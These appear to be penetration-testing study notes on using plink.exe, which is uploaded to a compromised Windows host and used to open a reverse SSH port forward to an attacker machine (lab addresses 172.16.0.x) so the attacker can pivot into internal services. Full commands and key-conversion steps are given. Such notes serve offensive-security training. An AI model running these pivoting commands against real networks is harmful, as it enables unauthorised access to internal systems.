# Plink.exe

* Is a Windows command line version of the PuTTY SSH client
* Our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection.
* This would be done with the following command:

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

* To use our example from before, if we have access to `172.16.0.5` and would like to forward a connection to `172.16.0.10:80` back to port `8000` our own attacking machine (`172.16.0.20`), we could use this command:

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

* Note that any keys generated by ssh-keygen will not work properly here.
* You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:

```
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

#### Note plink.exe

* Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the .exe. Whilst there is a copy pre-installed on Kali at `/usr/share/windows-resources/binaries/plink.exe`
* Download the latest
* https://www.chiark.greenend.org.uk/\~sgtatham/putty/latest.html
